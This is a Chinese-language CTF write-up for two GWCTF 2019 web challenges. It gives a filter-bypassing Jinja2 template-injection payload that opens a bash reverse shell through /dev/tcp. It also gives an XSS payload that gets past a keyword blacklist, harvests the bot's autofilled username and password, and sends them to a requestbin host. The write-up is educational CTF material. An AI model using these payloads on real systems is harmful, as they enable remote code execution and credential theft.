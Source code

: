 # GWCTF 2019

## 你的名字

``{{1+1}}``报错提示了python后端

发现config被置空了

那么可以利用config来bypass

```
{% iconfigf ''.__claconfigss__.__mconfigro__[2].__subclasconfigses__()[59].__init__.func_glconfigobals.linecconfigache.oconfigs.popconfigen('bash -i >& /dev/tcp/127.0.0.1/233 0>&1') %}1{% endiconfigf %}
```

## mypassword

可以注册，登陆后有反馈界面 F12看到泄露了源码

```php
if(is_array($feedback)){
    echo "<script>alert('反馈不合法');</script>";
    return false;
}
$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
foreach ($blacklist as $val) {
    while(true){
        if(stripos($feedback,$val) !== false){
            $feedback = str_ireplace($val,"",$feedback);
        }else{
            break;
        }
    }
}
```

看起来可以交错绕过然后xss

poc
```html
<scriframeipt>alert('233');</scriframeipt>
```

但是开了CSRF,么法直接用xss平台上的pyload了，需要自己写一个xss

怎么利用呢......

之前登陆的时候有个js挺奇怪的

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}//这里会把用户名和密码直接存到cookie里
}
```

那么bot的cookie里肯定有用户名密码，想办法写个js搞出来，但是又不能调用外部js，这里利用访问的二级域名来实现

最后发现bot还能自动填表单。。。


大概构造一个和登录界面一样的表单

```html
<input type="text" name="username">
<input type="password" name="password">
<script src="./js/login.js"></script>
<script>
    var user = document.getElementsByName("username")[0].value;
    var psw = document.getElementsByName("password")[0].value;
    document.location="http://http.requestbin.buuoj.cn/1e8jfct1/?a="+user+"?b="+psw;
</script>
```

然后交错bypass即可

```html
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
    var user = docucookiement.getcookieElementsByName("username")[0].value;
    var psw = docucookiement.getcookieElementsByName("password")[0].value;
    docucookiement.locacookietion="http://http.requestbin.buuoj.cn/swvl36sw/?a="+user+"?b="+psw;
</scrcookieipt>
```